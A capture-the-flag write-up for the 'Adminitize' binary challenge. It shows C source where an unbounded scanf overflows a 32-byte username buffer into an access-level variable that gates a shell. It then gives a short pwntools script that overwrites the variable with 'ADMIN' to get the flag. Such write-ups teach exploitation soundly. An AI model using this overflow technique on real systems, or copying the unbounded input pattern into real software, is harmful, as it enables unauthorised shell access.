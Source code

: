 # Adminitize

---

### Challenge Description

> Prove that you're an admin and i'll give you a shell on my system.

> Interact with the service at: 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:30101

[adminitize.zip](https://github.com/caprinux/Cyberthon-2021-Training/files/6330454/adminitize.zip)

---

### Solution

First we run the binary,

![image](https://user-images.githubusercontent.com/76640319/115133405-88498900-a03a-11eb-8e6e-aba60d3ffb8e.png)

as you can see, it takes in a Username, and then checks for our access level. 

We take a look at the source code next.

```c
void shell()
{
    system("/bin/sh");
}
int main()
{
    char access_level[7] = "PUBLIC\x00";
    char username[32];
    ...
    ...
    scanf("%s", username);
    printf("Greetings, %s. Your access level is %s.\n", username, access_level);

    if (!strcmp(access_level, "ADMIN")) {
        puts("Granting access...");
        shell();
    } else {
        puts("Sorry, your access level is too low.");
    }
```

As you can see, the program scans in a username without limiting size of input.

It then checks our access_level against "ADMIN" and grants us a shell if the string compare (strcmp) passes.

However, our access_level is fixed as PUBLIC\x00. 

Since username is fixed to take in 32 bytes, and scanf doesnt not limit input, we can overflow the username and overwrite other variables in the stack.

Hence our exploit will look something like: `BUFFER + "ADMIN"`

Since username holds 32 bytes, our buffer will probably be 32 bytes or more. 

Let's try it out. We write a quick pwntools script

```py
from pwn import * #import pwntools library

p = process("./adminitize") #run the program

p.sendline("B"*30 + 'ADMIN') #send buffer and "ADMIN" to program

p.interactive() # interact with program
```

![image](https://user-images.githubusercontent.com/76640319/115133647-7668e580-a03c-11eb-8516-50f4b55cb2e8.png)

Hmm seems like we haven't hit our access_level variable yet.

Let's try 40. 

![image](https://user-images.githubusercontent.com/76640319/115133668-897bb580-a03c-11eb-817e-c93ad2d9208a.png)

Look! Our access_level is now DMIN. We have hit access_level and overflowed it partially.

If we increase our buffer size by 1 now, we can probably overflow access_level totally with "ADMIN"

Let's try it on the service.

![image](https://user-images.githubusercontent.com/76640319/115133709-d495c880-a03c-11eb-948d-75e4e4d77f51.png)

```
CTFSG{u53l355_4cc355_l3v3l5}
```
